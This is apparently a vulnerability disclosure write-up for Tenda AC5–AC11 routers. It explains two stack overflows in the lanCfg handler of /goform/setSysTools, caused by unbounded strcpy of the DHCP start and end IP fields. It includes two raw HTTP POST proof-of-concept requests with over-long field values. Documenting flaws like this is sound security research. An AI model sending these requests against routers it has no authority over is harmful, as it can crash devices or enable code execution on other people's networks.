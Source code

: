 # Tenda Router Vulnerability

This vulnerability exists in  module `lanCfg` of  `/goform/setSysTools`  and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

On the page `/goform/setSysTools`, there are two stack overflows that allow an attacker to execute arbitrary code with a well-designed POST request, or to deny of service attack.

![pic/Untitled.png](pic/Untitled.png)

The  `DHCpen` is controllable and set to true.

![pic/Untitled1.png](pic/Untitled1.png)

1. Our input of `lanDhcpStartIP` and  `lanDhcpEndIP` is not limited
2. And  it will be followed by `strcpy(v49, v20);` and `strcpy (v48, v21);` to copy the input to v48 and v49 respectively, which are also unlimited in length. This causes a stack overflow at V48 and V49.

## POC

```
POST /goform/setSysTools HTTP/1.1
Host: 192.168.0.1
Content-Length: 166
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=lanCfg&lanIP=192.168.0.1&lanMask=255.255.255.0&dhcpEn=true&lanDhcpStartIP=192.168.0.100&lanDhcpEndIP=192.168.0.200aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&lanDns1=192.168.0.1&lanDns2=
```

```
POST /goform/setSysTools HTTP/1.1
Host: 192.168.0.1
Content-Length: 166
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=lanCfg&lanIP=192.168.0.1&lanMask=255.255.255.0&dhcpEn=true&lanDhcpStartIP=192.168.0.100aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&lanDhcpEndIP=192.168.0.200&lanDns1=192.168.0.1&lanDns2=
```

### Verify

Vulnerability demo
![pic/Untitled2.png](pic/Untitled2.png)

![pic/Untitled3.png](pic/Untitled3.png)


If the number of characters were longer, it would be enough to overflow.